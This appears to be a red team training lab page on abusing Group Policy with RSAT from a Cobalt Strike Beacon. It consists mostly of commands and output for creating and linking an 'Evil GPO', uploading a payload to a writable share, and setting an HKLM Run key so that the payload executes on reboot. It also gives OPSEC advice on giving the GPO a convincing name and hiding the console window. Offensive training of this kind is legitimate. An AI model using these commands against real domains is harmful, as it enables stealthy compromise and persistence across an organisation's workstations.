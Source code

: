 RSAT is a management component provided by Microsoft to help manage components in a domain. Since it's a legitimate management tool and often found on management workstations and servers, it can be useful to leverage without having to bring in external tooling.

The GroupPolicy module has several PowerShell cmdlets that can be used for administering GPOs, including:

-   New-GPO: Create a new, empty GPO.
-   New-GPLink: Link a GPO to a site, domain or OU.
-   Set-GPPrefRegistryValue: Configures a Registry preference item under either Computer or User Configuration.
-   Set-GPRegistryValue: Configures one or more registry-based policy settings under either Computer or User Configuration.
-   Get-GPOReport: Generates a report in either XML or HTML format.

You can check to see if the GroupPolicy module is installed with `Get-Module -List -Name GroupPolicy | select -expand ExportedCommands`. In a pinch, you can install it with `Install-WindowsFeature –Name GPMC` as a local admin.

Create a new GPO and immediately link it to the target OU.

```
beacon> getuid
[*] You are DEV\jking

beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"

GpoId       : d9de5634-cc47-45b5-ae52-e7370e4a4d22
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Order       : 4
```

  

 > **OPSEC Alert**  
The GPO will be visible in the Group Policy Management Console and other RSAT GPO tools, so make sure the name is "convincing".

Being able to write anything, anywhere into the HKLM or HKCU hives presents different options for achieving code execution. One simple way is to create a new autorun value to execute a Beacon payload on boot.

```
beacon> cd \\dc-2\software
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 281kb    fil     03/10/2021 13:54:10   pivot.exe
```

  

>  You can find this writeable software share with PowerView:  
```
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```

  

```
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\pivot.exe" -Type ExpandString

DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\jking
Id               : d9de5634-cc47-45b5-ae52-e7370e4a4d22
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 5/26/2021 2:35:02 PM
ModificationTime : 5/26/2021 2:42:08 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        : 
```

Every machine will typically refresh their GPOs automatically every couple of hours. To do it manually, use the Lab Dashboard to access the WKSTN-2 Console and execute `gpupdate /target:computer /force` in a Command Prompt. Use `regedit` to verify the new registry value has been applied and then reboot WKSTN-2. When it starts up again, reconnect to the console and the payload will execute.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/group-policy/pivot.png)

  

>  **OPSEC Alert**  
You will also notice that this leaves a Command Prompt on the screen!  A better way to do it could be `%COMSPEC% /b /c start /b /min`.